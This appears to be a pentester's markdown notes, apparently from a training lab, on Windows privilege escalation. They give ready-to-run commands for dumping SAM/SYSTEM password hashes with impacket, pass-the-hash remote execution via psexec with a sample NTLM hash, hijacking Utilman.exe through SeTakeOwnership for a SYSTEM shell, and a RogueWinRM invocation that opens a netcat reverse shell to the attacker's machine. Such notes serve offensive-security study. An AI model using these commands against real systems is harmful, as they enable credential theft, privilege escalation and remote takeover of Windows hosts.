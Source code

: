 ## Dumping SAM/SYSTEM secrets

```bash
python3 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

## Pass the hash

Gaining `RCE` by passing the hash
```bash
python3 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.177.117
```

### SeTakeOwnership

The `SeTakeOwnership` privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges, as we could, for example, search for a service running as SYSTEM and take ownership of the service's executable

We'll abuse `utilman.exe` to escalate privileges this time. Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen

Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like

```cmd
takeown /f C:\Windows\System32\Utilman.exe
icacls C:\Windows\System32\Utilman.exe /grant USERNAME:F
copy cmd.exe utilman.exe
```

Click on the "Ease of access button" (the one in the middle and a `cmd` process will pop up)
![](../images/Pasted%20image%2020240416150639.png)

## SeImpersonate / SeAssignPrimaryToken

These privileges allow a process to impersonate other users and act on their behalf.
**Impersonation usually consists of being able to spawn a process or thread under the security context of another user.**

We will use this tool to get a reverse shell https://github.com/antonioCoco/RogueWinRM

```cmd
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe LOCAL_IP LOCAL_PORT"
```

```bash
nc -lvnp PORT
```
